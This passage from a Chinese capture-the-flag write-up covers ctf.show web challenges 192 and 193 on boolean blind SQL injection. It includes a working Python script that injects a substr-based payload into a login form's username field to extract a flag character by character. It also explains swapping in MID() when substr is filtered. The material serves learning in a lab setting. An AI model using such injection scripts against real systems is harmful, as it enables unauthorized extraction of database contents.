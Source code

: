 ```python
            flag+=chr(j)  
            print(flag)
            break
```

```sql
mysql> select ascii('1');
ascii('1') 
49 

mysql> select ord('1');
ord('1')
 49 
```

## web 192

禁用了ord,hex函数，换成直接substr()函数跑字符

前面没有介绍，这里介绍一下

:::tip
SUBSTR(string, start, length)，每次改变start的位置，length设为1，可以到达每次截取一个字符串的目的进行比较，爆破出字段值
:::

```python
import requests
import string
url="http://4db5cb12-5119-4ebd-9443-800e9ed3cdd0.challenge.ctf.show/api/"
s=string.ascii_lowercase+string.digits+'{'+'}'+'-'
flag=''

for i in range(1,45):
    for j in s:
    
        data={
            'username':f"'||if((substr((select f1ag from ctfshow_fl0g),{i},1))='{j}',1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=j  
            print(flag)
            break
```


## web 193

禁用了substr函数，可以使用mid()函数

:::tip
MID(string,start,length)函数，功能类似substr函数，用它来每次截取一个，爆破字段值
:::
